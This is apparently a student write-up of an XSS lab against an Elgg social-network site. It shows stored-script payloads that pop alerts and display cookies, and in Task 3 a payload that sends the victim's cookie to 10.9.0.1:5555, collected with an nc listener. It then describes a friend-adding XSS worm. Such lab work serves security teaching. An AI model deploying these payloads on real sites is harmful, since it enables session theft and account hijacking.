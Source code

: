 # Tarefas para as semana 10 e 11

## Task 1: Posting a Malicious Message to Display an Alert Window

The goal in this task is to embed a JavaScript program in a profile, such that when another user views the profile, an alert window will be displayed when the program is executed. To achieve that, we clicked on the option to edit the profile and in the "About me" section, we added the code given in the description of the task: 

**<script>alert(’XSS’);</script>**

After that, from another user's profile, when we click in the Alice's profile, the one where we added the code above, we see a message in the form of a pop-up window shown below.

![image59.png](images/image59.png)

## Task 2: Posting a Malicious Message to Display Cookies

For this task, the goal is to embed a JavaScript program in a profile, such that when the user views its own profile, an alert window would appear with that user's cookies. To achieve that, we did a similar thing as the previous task, adding this code to the brief description:

**<script>alert(document.cookie);</script>**

After that, when we log into Alice's profile, on her profile page, a see a pop-up window with a message containing the cookies.

![image60.png](images/image60.png)

## Task 3: Stealing Cookies from the Victim’s Machine

For this task, the goal is to, instead of the the user being the only one to see the cookies, we want to send them to the attacker. For that, we changed the brief description with the follwing code:

**<script>document.write(’<img src=http://10.9.0.1:5555?c=’
                       + escape(document.cookie) + ’   >’);
</script>**

We can then see the cookies by doing the command *nc -lknv 5555*.

## Task 4: Becoming the Victim’s Friend

For this task the goal is to write a program that writtes an XSS worm that adds Samy as a friend to any other user that visits Samy's profile. For that, we started by understanding what happens when a friend request is sent. 

After analysing our information and the code that was given to us, we only needed to build the url that would be used to achieve the goal of our task and add an user as a friend when they visited Samy's profile, we gathered that Samy's id was 59 so, to achieve our goal, we added the follwing code to the "About me" section , in *Edit HTML* mode:

![image61.png](images/image61.png)

We then answered some questions:

**Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?** The lines 1 and 2 get the values of the __elgg_ts and __elgg_token variables and this values are used against Cross Site Request Forgeru attacks. This values change every time a page is loaded and because of that, they need to be accessed every time. <br>

**Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?** No, because if the application only provided the Editor mode, the attack will not be successful because this expecific mode adds some extra HTML and some symbols change.


